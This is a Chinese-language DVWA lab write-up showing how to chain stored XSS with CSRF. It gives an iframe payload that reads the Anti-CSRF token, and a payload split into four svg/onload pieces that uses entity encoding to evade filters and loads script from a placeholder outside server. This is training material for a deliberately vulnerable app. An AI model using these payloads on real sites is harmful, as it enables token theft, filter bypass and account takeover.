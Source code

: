 由于跨域是不能实现的,所以我们要将攻击代码注入到 dvwa 靶机中,才有可能完成攻击.下面利用 High 级别的存储型 XSS 漏洞协助获取 Anti-CSRF token(因为这里的 XSS 注入有长度限制,不能够注入完整的攻击脚本,所以只获取 Anti-CSRF token).

注入代码如下
`<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`

**另类通关**

通过 XSS 获得 token 之后修改密码
同等级的 XSS-Stored $name 可被我们利用做 XSS,这样就可以配合 CSRF 来重置用户密码了.
需要先说明一下 DVWA 的数据库设计,guestbook 表的 name 字段类型为 varchar(100),也就是说最多 name 只能写入 100 个字符,超过的字符会被数据库抛弃不存储.

由于100个字符的限制,将payload分成多份提交
```js
<svg/onload="s='&#115;&#99;&#114;&#105;&#112;&#116;'">  # 事件内可以解析ASCII编码后的字符串
<svg/onload="j=document.createElement(s)">  # 拼接出一个script来引入外部js
<svg/onload="j.src='http://<服务器B>/x.js'">
<svg/onload="document.body.appendChild(j)">
```
这样就可以绕过后端的正则过滤

为了方便测试,在 x.js 里只写了 `alert('HelloDVWA')`

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa82.png)
